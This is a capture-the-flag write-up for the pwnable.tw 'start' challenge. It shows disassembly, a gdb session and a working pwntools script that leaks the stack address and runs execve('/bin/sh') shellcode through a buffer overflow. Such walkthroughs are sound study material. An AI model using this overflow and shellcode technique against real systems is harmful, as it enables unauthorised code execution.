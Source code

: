 ```yaml
---
title: "pwnable.tw start writeup"
date: "2019-10-12"
draft: "false"
---
```



## environment

```bash
$ uname -a
Linux base-debootstrap 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

$ gdb --version
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
```

## Finding

Executed file command.
This file is ELF file for 32bit.

```bash
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

Extected strace command.
This file get 60 bytes input with read systemcall.

```bash
$ strace ./start 
execve("./start", ["./start"], [/* 19 vars */]) = 0
strace: [ Process PID=629 runs in 32 bit mode. ]
write(1, "Let's start the CTF:", 20Let's start the CTF:)    = 20
read(0, AAAA
"AAAA\n", 60)                   = 5
exit(0)                                 = ?
+++ exited with 0 +++
```

Disassemble with objdump.

```bash
$ objdump -M intel -d ./start 

./start:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       54                      push   esp
 8048061:       68 9d 80 04 08          push   0x804809d
 8048066:       31 c0                   xor    eax,eax
 8048068:       31 db                   xor    ebx,ebx
 804806a:       31 c9                   xor    ecx,ecx
 804806c:       31 d2                   xor    edx,edx
 804806e:       68 43 54 46 3a          push   0x3a465443
 8048073:       68 74 68 65 20          push   0x20656874
 8048078:       68 61 72 74 20          push   0x20747261
 804807d:       68 73 20 73 74          push   0x74732073
 8048082:       68 4c 65 74 27          push   0x2774654c
 8048087:       89 e1                   mov    ecx,esp
 8048089:       b2 14                   mov    dl,0x14
 804808b:       b3 01                   mov    bl,0x1
 804808d:       b0 04                   mov    al,0x4
 804808f:       cd 80                   int    0x80
 8048091:       31 db                   xor    ebx,ebx
 8048093:       b2 3c                   mov    dl,0x3c
 8048095:       b0 03                   mov    al,0x3
 8048097:       cd 80                   int    0x80
 8048099:       83 c4 14                add    esp,0x14
 804809c:       c3                      ret    

0804809d <_exit>:
 804809d:       5c                      pop    esp
 804809e:       31 c0                   xor    eax,eax
 80480a0:       40                      inc    eax
 80480a1:       cd 80                   int    0x80
```

This file take the following behavior.

1. Initialize to 0 value on eax, ebx, ecx and edx.
2. Push 20 bytes value onto the stack(This value is "Let's start the CTF:")
3. Call write systemcall(al=0x4) and output character string of step 2
4. Call read systemcall(al=0x3) and receive 60 bytes input
5. Add 20 bytes of address in esp
6. Call ret instruction, and eip will be "0x804809d"(_exit function address)
7. Call _exit function

I can execute code with 0x14 bytes + "Address".
Try it with gdb.

```bash
$ python -c 'print("A"*0x14 + "BBBB")'
AAAAAAAAAAAAAAAAAAAABBBB
 gdb -q ./start
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./start...(no debugging symbols found)...done.
pwndbg> r
Starting program: /home/vagrant/work/tw/start/start 
Let's start the CTF:AAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────
*EAX  0x19
 EBX  0x0
*ECX  0xffffd6e4 ◂— 0x41414141 ('AAAA')
*EDX  0x3c
 EDI  0x0
 ESI  0x0
 EBP  0x0
*ESP  0xffffd6fc —▸ 0xffffd70a ◂— 0xd84e0000
*EIP  0x42424242 ('BBBB')
─────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────
Invalid address 0x42424242










──────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────
00:0000│ esp  0xffffd6fc —▸ 0xffffd70a ◂— 0xd84e0000
01:0004│      0xffffd700 ◂— 0x1
02:0008│      0xffffd704 —▸ 0xffffd82c ◂— 0x6d6f682f ('/hom')
03:000c│      0xffffd708 ◂— 0x0
04:0010│      0xffffd70c —▸ 0xffffd84e ◂— 0x4c454853 ('SHEL')
05:0014│      0xffffd710 —▸ 0xffffd85e ◂— 0x4d524554 ('TERM')
06:0018│      0xffffd714 —▸ 0xffffd872 ◂— 0x5f485353 ('SSH_')
07:001c│      0xffffd718 —▸ 0xffffd88f ◂— 0x5f485353 ('SSH_')
────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────
 ► f 0 42424242
Program received signal SIGSEGV (fault address 0x42424242)
```


:smile:


Next step, I checked security settings on this binary.

```bash
pwndbg> checksec
[*] '/home/vagrant/work/tw/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

wow... NX bit is desabled.
Okay, We can exec code on stack.

### Writeup

1. Launch ./start
2. Overflow and output esp address with "0x8048087"(mov ecx,esp)
3. Add 0x14 + shellcode
4. Execute shellcode

```python
# coding: utf-8
from pwn import *

# Set target environment
context(os='linux', arch='i386')

HOST = 'chall.pwnable.tw'
PORT = 10000

# mov ecx, esp & write systemcall gadget address
stack_leak = 0x08048087
shell_code = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

# for executing code on remote or local
if len(sys.argv) > 1 and sys.argv[1] == '-r':
    conn = remote(HOST, PORT)
else:
    conn = process('./start')

log.info('Pwning start')
conn.recvuntil(":")

# leak esp value
stage1 = b'A'*0x14
stage1 += p32(stack_leak)

# Save esp value and print esp value
conn.send(stage1)
stack_addr = u32(conn.recv(4))
log.info("Stack Address: {}".format(hex(stack_addr)))

# Add 0x14 and shellcode
stage2 = b'B'*0x14
stage2 += p32(stack_addr + 0x14)
stage2 += shell_code

# Get shell
conn.send(stage2)
conn.interactive()
```